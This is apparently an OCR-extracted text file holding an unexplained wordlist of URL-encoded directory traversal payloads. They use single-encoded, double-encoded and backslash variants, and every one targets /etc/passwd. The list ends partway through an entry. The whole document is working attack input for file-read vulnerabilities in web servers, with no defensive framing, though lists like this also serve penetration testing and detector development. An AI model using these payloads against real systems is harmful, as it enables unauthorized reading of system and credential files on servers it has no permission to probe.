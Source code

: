 ```txt
%2e%2e%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f


```
